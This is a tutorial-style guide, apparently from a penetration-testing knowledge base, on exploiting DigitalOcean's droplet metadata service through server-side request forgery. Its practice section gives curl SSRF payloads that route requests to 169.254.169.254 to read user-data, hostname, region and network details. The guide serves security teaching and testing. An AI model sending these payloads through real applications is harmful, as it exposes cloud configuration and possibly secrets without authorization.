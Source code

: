 ```yaml
---
title: Exploiting DigitalOcean Metadata via SSRF
description: Learn how to exploit DigitalOcean's metadata services using SSRF to access
  sensitive configuration and data.
keywords:
- DigitalOcean
- SSRF
- metadata service
- cloud security
- network configuration
- sensitive data access
- exploitation
- user-data
- IPv6 address
- hostname extraction
---
```


# DigitalOcean

## Context

This guide demonstrates the exploitation of DigitalOcean's metadata service using Server-Side Request Forgery (SSRF). The objective is to extract sensitive data by interacting with metadata endpoints exposed by DigitalOcean droplets. To follow this guide effectively, you should be familiar with the HTTP protocol, cloud service architecture, metadata services, SSRF, and the exploitation of cloud metadata services.

## Theory

### DigitalOcean Metadata Service Architecture

DigitalOcean droplets provide metadata that can be accessed from within the droplet itself, available at the URL `http://169.254.169.254/metadata/v1/`. This endpoint does not require authentication, which makes it a target for exploitation through SSRF vulnerabilities. By leveraging such a vulnerability, an attacker can query this endpoint to retrieve potentially sensitive metadata.

### Metadata Endpoint Structure and Sensitive Data

The DigitalOcean metadata endpoint is structured into various paths that provide specific information:

- `/user-data`: User-defined data specific to the droplet.
- `/hostname`: The hostname assigned to the droplet.
- `/region`: The geographical region where the droplet is located.
- `/interfaces`: Details about network interfaces.

These endpoints can reveal sensitive configuration details, and exploiting an SSRF vulnerability allows attackers to access and extract data from these internal endpoints. The sequence for an attack involves identifying the SSRF vulnerability, targeting the metadata endpoint, and extracting data from its paths.

### Attacker Goals and Impact

The primary goal of an attacker exploiting the DigitalOcean metadata service is to access and extract sensitive details such as credentials, network configurations, and user data that could potentially lead to further access and privilege escalation. By successfully exploiting SSRF to access `/metadata/v1/` paths, an attacker can conduct reconnaissance and potentially leverage gathered information for further exploitation.

## Practice

### Extracting DigitalOcean Metadata via SSRF

- **Identify an SSRF Injection Point**: The first step in this process is locating a parameter or feature within the vulnerable application that allows for arbitrary URL requests. This weak point is where you will inject the metadata service URL to retrieve information.

- **Construct Payloads**: The base URL for accessing DigitalOcean metadata is:
  
  ```plaintext
  http://169.254.169.254/metadata/v1/
  ```

- **Retrieve User Data**: To extract user-defined data, execute the following command, replacing `vulnerable-app.local` with the actual target URL:
  
  ```bash
  curl http://vulnerable-app.local/fetch?url=http://169.254.169.254/metadata/v1/user-data
  ```

- **Extract Hostname**: Obtain the droplet's hostname with:

  ```bash
  curl http://vulnerable-app.local/fetch?url=http://169.254.169.254/metadata/v1/hostname
  ```

- **Discover Region**: To find out in which geographical region the droplet is located, use:

  ```bash
  curl http://vulnerable-app.local/fetch?url=http://169.254.169.254/metadata/v1/region
  ```

- **Access Network Details**: To extract the public IPv6 address:

  ```bash
  curl http://vulnerable-app.local/fetch?url=http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
  ```

By executing these commands, the attacker can retrieve sensitive metadata such as user data, the hostname, the region, and network configuration details. This information can be critically valuable, depending on the context and sensitivity of the data.

## Tools

- **curl**
- **Burp Suite** 

These tools facilitate the retrieval and inspection of data from metadata endpoints effectively, supporting manual and automated SSRF injection testing.